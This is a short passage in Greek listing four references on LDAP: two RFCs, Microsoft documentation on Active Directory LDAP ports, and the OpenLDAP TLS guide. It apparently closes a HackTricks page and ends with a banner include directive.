- [7] [RFC 4511 – Λειτουργίες πρωτοκόλλου LDAP](https://www.rfc-editor.org/rfc/rfc4511)
- [8] [Θύρες LDAP και Global Catalog του Microsoft Active Directory](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1010e59a-cf64-410c-a05c-a3a6c715261a)
- [9] [RFC 4513 – Μέθοδοι ελέγχου ταυτότητας και μηχανισμοί ασφαλείας LDAP](https://www.rfc-editor.org/rfc/rfc4513)
- [10] [Οδηγός διαχειριστή OpenLDAP 2.6 – Χρήση TLS](https://openldap.org/doc/admin26/tls.html)
{{#include ../banners/hacktricks-training.md}}
